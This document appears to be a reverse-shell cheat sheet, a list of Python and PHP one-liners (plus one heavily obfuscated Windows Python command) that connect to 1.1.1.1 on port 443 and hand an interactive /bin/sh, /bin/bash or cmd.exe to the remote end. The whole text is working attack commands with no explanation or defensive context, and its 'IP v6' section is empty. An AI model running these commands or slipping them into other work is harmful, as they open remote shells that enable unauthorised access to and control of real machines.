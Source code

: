 ### IP v4

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

`export RHOST="1.1.1.1";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

### IP v6

### Windows only:

`C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"`

# PHP:

`php -r '$sock=fsockopen("1.1.1.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$s=fsockopen("1.1.1.1",443);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'`

`php -r '$s=fsockopen("1.1.1.1",443);shell_exec("/bin/sh -i <&3 >&3 2>&3");'`

`php -r '$s=fsockopen("1.1.1.1",443);/bin/sh -i <&3 >&3 2>&3;'`

`php -r '$s=fsockopen("1.1.1.1",443);system("/bin/sh -i <&3 >&3 2>&3");'`
